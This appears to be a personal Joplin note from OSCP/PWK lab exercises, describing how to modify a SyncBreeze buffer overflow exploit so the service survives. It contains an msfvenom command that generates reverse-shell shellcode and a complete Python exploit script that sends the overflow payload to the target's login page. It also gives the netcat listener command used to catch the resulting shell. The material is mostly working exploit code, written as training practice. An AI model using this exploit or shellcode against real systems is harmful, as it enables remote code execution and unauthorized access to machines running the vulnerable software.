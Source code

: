 11.2.10.1

# 11.2.10.1
## 11.2.10.1.1. Update the exploit so that SyncBreeze still runs after exploitation.

Change the shellcode to use the ExitThread
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
![6074af374e100285ed4356235bafc7eb.png](:/aabdd270268942d0932d24206a08128a)

Here is the code
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 10_exitThread.py 
#!/usr/bin/python
import socket
import sys

shellcode = ("\xd9\xc4\xd9\x74\x24\xf4\x5f\x31\xc9\xbd\x5f\x4c\xbf\xdf\xb1"
"\x52\x31\x6f\x17\x83\xef\xfc\x03\x30\x5f\x5d\x2a\x32\xb7\x23"
"\xd5\xca\x48\x44\x5f\x2f\x79\x44\x3b\x24\x2a\x74\x4f\x68\xc7"
"\xff\x1d\x98\x5c\x8d\x89\xaf\xd5\x38\xec\x9e\xe6\x11\xcc\x81"
"\x64\x68\x01\x61\x54\xa3\x54\x60\x91\xde\x95\x30\x4a\x94\x08"
"\xa4\xff\xe0\x90\x4f\xb3\xe5\x90\xac\x04\x07\xb0\x63\x1e\x5e"
"\x12\x82\xf3\xea\x1b\x9c\x10\xd6\xd2\x17\xe2\xac\xe4\xf1\x3a"
"\x4c\x4a\x3c\xf3\xbf\x92\x79\x34\x20\xe1\x73\x46\xdd\xf2\x40"
"\x34\x39\x76\x52\x9e\xca\x20\xbe\x1e\x1e\xb6\x35\x2c\xeb\xbc"
"\x11\x31\xea\x11\x2a\x4d\x67\x94\xfc\xc7\x33\xb3\xd8\x8c\xe0"
"\xda\x79\x69\x46\xe2\x99\xd2\x37\x46\xd2\xff\x2c\xfb\xb9\x97"
"\x81\x36\x41\x68\x8e\x41\x32\x5a\x11\xfa\xdc\xd6\xda\x24\x1b"
"\x18\xf1\x91\xb3\xe7\xfa\xe1\x9a\x23\xae\xb1\xb4\x82\xcf\x59"
"\x44\x2a\x1a\xcd\x14\x84\xf5\xae\xc4\x64\xa6\x46\x0e\x6b\x99"
"\x77\x31\xa1\xb2\x12\xc8\x22\x7d\x4a\xa5\x64\x15\x89\x49\x88"
"\x5d\x04\xaf\xe0\xb1\x41\x78\x9d\x28\xc8\xf2\x3c\xb4\xc6\x7f"
"\x7e\x3e\xe5\x80\x31\xb7\x80\x92\xa6\x37\xdf\xc8\x61\x47\xf5"
"\x64\xed\xda\x92\x74\x78\xc7\x0c\x23\x2d\x39\x45\xa1\xc3\x60"
"\xff\xd7\x19\xf4\x38\x53\xc6\xc5\xc7\x5a\x8b\x72\xec\x4c\x55"
"\x7a\xa8\x38\x09\x2d\x66\x96\xef\x87\xc8\x40\xa6\x74\x83\x04"
"\x3f\xb7\x14\x52\x40\x92\xe2\xba\xf1\x4b\xb3\xc5\x3e\x1c\x33"
"\xbe\x22\xbc\xbc\x15\xe7\xdc\x5e\xbf\x12\x75\xc7\x2a\x9f\x18"
"\xf8\x81\xdc\x24\x7b\x23\x9d\xd2\x63\x46\x98\x9f\x23\xbb\xd0"
"\xb0\xc1\xbb\x47\xb0\xc3")

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10
    
    inputBuffer = filler + eip + offset + nops + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

Start a netcat listener
`sudo nc -lvnp 443`
![ee4eac4230f2a3c994410d92e30271e3.png](:/b86971c01afb42a8a9cea88dd53c7a4b)

We have a shell
![efe9f3fdd432a03d668b26bb0fbde885.png](:/f0674a65e8f947d38a7a780318e4fd45)

id: d60eeec07ad04d9786d69971428e9dcd
parent_id: 1f4c0109545b4c21a024076965547fe2
created_time: 2020-09-27T10:18:21.090Z
updated_time: 2020-09-27T10:18:22.682Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-27T10:18:21.090Z
user_updated_time: 2020-09-27T10:18:22.682Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1